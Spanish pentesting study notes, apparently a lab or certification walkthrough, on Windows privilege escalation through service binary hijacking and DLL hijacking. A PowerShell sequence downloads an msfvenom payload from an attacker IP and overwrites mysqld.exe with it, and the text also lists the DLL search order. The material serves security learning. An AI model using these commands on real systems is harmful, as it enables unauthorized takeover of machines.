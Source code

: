 Recordamos que el término disabled sólo hacer referencia a si estamos haciendo uso o no del privilegio en nuestra sesión.

Así, con msfvenom creamos un payload malicioso y lo trasnferimos a la máquina:

```
PS C:\Users\dave> Invoke-WebRequest -Uri http://192.168.45.170/payload.exe -OutFile C:\xampp\mysql\bin\mysqld.exe
Invoke-WebRequest : The process cannot access the file 'C:\xampp\mysql\bin\mysqld.exe' because it is being used by
another process.
At line:1 char:1
+ Invoke-WebRequest -Uri http://192.168.45.170/payload.exe -OutFile C:\ ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Invoke-WebRequest], IOException
    + FullyQualifiedErrorId : System.IO.IOException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
PS C:\Users\dave> Invoke-WebRequest -Uri http://192.168.45.170/payload.exe -OutFile C:\xampp\mysql\bin\mysqld.exe
```

(Observemos que tenemos que mover previamente el ejecutable porque está siendo utilizado)

Y reiniciamos la máquina previamente habiendo acrtivado un listener:

```
type C:\Users\daveadmin\Desktop\flag.txt
```

<br />

##### 2.2.2. Service DLL Hijacking.

Puede ocurrir que no tengámos un binario que sustituir. En dicho caso todavía tenemos otra alternativa. Recurrir a la sustitución de librerías compartidas. 

Las Dynamic Link Libraries (DLL) son librerías que tienen código utilizado por uno o varios programas en Windows destinadas fundamentalmente a proveer funcionalidad para desarrolladores disminuyendo al repetición de código. Es el análogo de los *Share Objects* en Unix.

Hay varios métodos que podemos usar para explotar cómo funcionan las DLL en Windows y, a menudo, pueden ser una forma efectiva de elevar nuestros privilegios. Un método es similar al vector de escalada de privilegios realizado en la sección anterior. En lugar de sobrescribir el binario, simplemente sobrescribimos una DLL que usa el binario del servicio. Sin embargo, es posible que el servicio no funcione como se esperaba porque falta la funcionalidad DLL real. En la mayoría de los casos, esto aún nos llevaría a la ejecución del código de la DLL y luego, por ejemplo, a la creación de un nuevo usuario administrativo local.

Otro método consiste en secuestra lo que se denomina como la *DLL Search Order*, que se trata de aprovecharnos de cómo el OS busca una DLL para cargar una librería maliciosa antes que la DLL original. Por ejemplo, OS Windows sigue el siguiente esquema para cargar una librería compartida:

```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```
